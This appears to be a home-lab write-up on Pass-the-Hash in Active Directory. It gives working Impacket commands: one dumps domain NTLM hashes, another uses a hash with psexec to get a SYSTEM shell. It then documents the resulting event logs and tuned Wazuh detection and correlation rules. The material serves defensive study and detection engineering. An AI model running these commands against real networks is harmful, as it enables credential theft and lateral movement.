









# Pass-the-Hash (T1550.002)

Steal an account's **NTLM hash** and reuse it to log on to another host, without ever learning the password or cracking the hash. This module takes the domain Administrator hash from a DC dump and uses it to get a SYSTEM shell on a workstation, then builds the detection for it.

Unlike [Module 01](../01-kerberoasting), where Wazuh had no detection and I built one from scratch, Wazuh already alerts on Pass-the-Hash out of the box. So the detection work here is *tune, not create*: analyze the built-in rules, raise the one that matters, and correlate two separate events into a single high-confidence alert. That shift, from building detections to improving existing ones, is the more common day-to-day job of a detection engineer.

---

## Scenario

| Term | What it is |
|------|------------|
| **Pass-the-Hash (PtH)** | Authenticating with an NTLM password hash instead of the plaintext password |
| **NTLM hash** | The hash Windows uses to prove identity over the network; in PtH the hash *is* the credential |
| **Lateral movement** | Moving from one compromised host to another inside the network |
| **Assume-breach** | Starting the exercise from an already-compromised position, as a real intrusion usually is |

PtH is not an initial-access technique; it needs a hash the attacker already stole. Following an **assume-breach** model, I start with domain-admin access, dump the hashes, and move laterally to the Windows 11 endpoint.

- **Attacker:** Kali (`192.168.56.40`)
- **Target:** WIN11 (`192.168.56.20`) — domain-joined, Sysmon installed
- **Tooling:** Impacket (`secretsdump`, `psexec`)

---

## 1. Attack: from hash to SYSTEM shell

| Term | What it is |
|------|------------|
| **secretsdump** | Impacket tool that dumps account hashes from a DC's NTDS.dit or a host's SAM |
| **NTDS.dit** | The database where Active Directory stores every account's password hash |
| **psexec** | Impacket tool that opens a remote shell over SMB (445) by installing a temporary service |

### Dump the hashes

```bash
impacket-secretsdump lab.local/Administrator@192.168.56.10 -just-dc-ntlm
```

`-just-dc-ntlm` pulls only the NTLM hashes from the DC. The output is one line per account (`account:RID:LM:NT:::`); the fourth field is the NT hash used for PtH.



One detail worth reading: `user1`, `user2`, `admin1`, and `svc-legacy` all share the same NT hash, a dead giveaway of password reuse, which is why Pass-the-Hash spreads so easily across a network. `svc-sql` has a different hash because it was hardened in Module 01.

### Pass the hash

```bash
impacket-psexec -hashes :d0145816465e59a671a8e92a90f4a2ce lab.local/Administrator@192.168.56.20
```

`-hashes :<NT>` authenticates with the hash instead of a password, the heart of the technique. No password is ever typed.

The first attempt was blocked by Windows Defender (see [Defense in depth](#3-defense-in-depth) below). With real-time protection disabled to simulate an unprotected host, the same command returns a shell:



```
C:\Windows\System32> whoami
nt authority\system
C:\Windows\System32> hostname
DESKTOP-FRCCVT9
```

`nt authority\system` is the highest privilege on the host, obtained with nothing but a hash.

---

## 2. Host artifacts

| Term | What it is |
|------|------------|
| **Event 4624** | A successful logon. Logon Type 3 + NTLM is the classic PtH signal |
| **Logon Type 3** | A network (remote) logon |
| **NtLmSsp** | The logon process that confirms NTLM was used |
| **Event 7045** | A new service was installed — psexec's fingerprint |

The attack leaves two artifacts on WIN11.

**Event 4624** is a network logon (Type 3) authenticated with NTLM (`NtLmSsp`) for the domain `Administrator`. A domain account logging on over the network with NTLM, where Kerberos is normally used, is the tell-tale sign of Pass-the-Hash.



A single psexec run produces several of these in one burst, because the tool reconnects over SMB multiple times (share check, upload, service create, service start):



**Event 7045** records the random service psexec installs (`LeYA`), running a random binary as `LocalSystem`. This one lives in the System log, not Security.



---

## 3. Defense in depth

The first psexec attempt failed, and that failure is worth documenting. The hash authentication succeeded, so credential reuse itself was not stopped, but Defender's real-time protection blocked the execution payload and no shell was returned.



That is defense in depth: one layer (authentication) was bypassed, and the next (endpoint protection) caught it. Capturing both the block and the later success, after disabling protection to model an unprotected host, shows what EDR stops and what gets through without it.

---

## 4. Detection engineering (tune, not create)

| Term | What it is |
|------|------------|
| **Built-in rule** | A rule shipped with Wazuh. PtH is already covered, unlike Module 01's attack |
| **`if_sid`** | Fires a rule only when a prior rule fired, used to layer on top of a built-in rule |
| **Correlation rule** | Fires on a *sequence* of events rather than one, for higher confidence |
| **`if_matched_sid`** | Requires a prior alert within a time window, the basis of correlation |

### The built-in detection, and its limit

Wazuh already flags the attack: **rule 92652** on the NTLM logon (level 6) and **rule 92650** on the service install (level 12).



The logon rule is useful but quiet at level 6, and each rule sees only its own event in isolation. Two improvements follow.

### Rule 100103: raise the logon alert

Layer on top of the built-in rule with `if_sid` and bump a genuine PtH logon to level 12:

```xml
<group name="pass-the-hash,attack,">
  <rule id="100103" level="12">
    <if_sid>92652</if_sid>
    <description>Pass-the-Hash: high-risk remote NTLM logon (Administrator) - possible PtH [T1550.002]</description>
    <mitre>
      <id>T1550.002</id>
    </mitre>
  </rule>
</group>
```



### Rule 100104: correlate logon and service install

A single NTLM logon can be benign, and so can a single new service. But a remote NTLM logon followed within two minutes by a random service install on the same host is almost certainly psexec-based lateral movement. This correlation rule ties the two together and fires at level 14:

```xml
  <rule id="100104" level="14" frequency="2" timeframe="120">
    <if_matched_sid>92650</if_matched_sid>
    <if_sid>92652</if_sid>
    <description>Pass-the-Hash CONFIRMED: NTLM remote logon + remote service install within 2m (psexec lateral movement) [T1550.002]</description>
    <mitre>
      <id>T1550.002</id>
      <id>T1021.002</id>
      <id>T1569.002</id>
    </mitre>
  </rule>
```



The built-in rules each see one event in isolation; 100104 combines them into a single high-confidence alert.

### Debugging note: a condition that can never match

The first version of 100104 included `<same_source_ip/>`, requiring the logon and the service-install events to share a source IP. It never fired. Querying the two prerequisite alerts directly showed why: Event 7045 has no source-IP field at all, because service installation is a local action with nowhere for an IP to come from, so the condition could never match. Removing it (same host plus same time window is enough to tie the events together) made the rule fire. The lesson is to confirm a field exists in both events before correlating on it, checked against the real logs rather than assumed.

Portable [Sigma versions](sigma) of both rules are in `sigma/`.

---

## Lessons learned

- When a SIEM already detects an attack, the job is to analyze and improve the existing coverage rather than duplicate it.
- Two medium-confidence events in sequence can be far stronger evidence than either alone, which is what the correlation rule captures.
- Source IP is unreliable in both directions. Across runs the same attack logged the gateway IP (`.1`) once and the real Kali IP (`.40`) another time, so detections should key on behavior, not IP.
- A strong password does not stop Pass-the-Hash. Once the hash leaks it works regardless of password strength, so the defenses differ from Kerberoasting: credential hygiene, LAPS, and limiting where admin accounts can log on.

---

## MITRE ATT&CK

| Technique | ID | Tactic |
|-----------|-----|--------|
| Use Alternate Authentication Material: Pass the Hash | T1550.002 | Lateral Movement |
| Remote Services: SMB/Windows Admin Shares | T1021.002 | Lateral Movement |
| System Services: Service Execution | T1569.002 | Execution |

---

## Next

Incident Response (NIST SP 800-61) for this attack: containment, eradication, recovery, and re-attack verification. Coming next.

---

*All activity is performed in an isolated lab against systems I own, for educational and portfolio purposes.*
